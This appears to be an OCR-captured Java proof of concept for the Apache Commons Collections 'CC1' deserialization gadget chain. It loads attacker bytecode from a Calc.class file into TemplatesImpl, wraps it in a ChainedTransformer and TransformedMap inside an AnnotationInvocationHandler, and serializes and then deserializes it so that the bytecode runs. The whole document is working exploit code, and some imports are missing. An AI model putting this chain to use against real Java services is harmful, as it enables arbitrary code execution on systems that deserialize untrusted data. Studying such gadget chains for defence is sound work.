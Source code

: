 ```java
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
         byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
         TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Calc");
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", new Class[0], new Object[0])
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("value","aaa");
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor =c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        serialize(o);
        unserialize("test.txt");

        }


    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(object);
    }
    public static void unserialize(Object object) throws Exception{
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("test.txt"));
        ois.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
 }
}

```
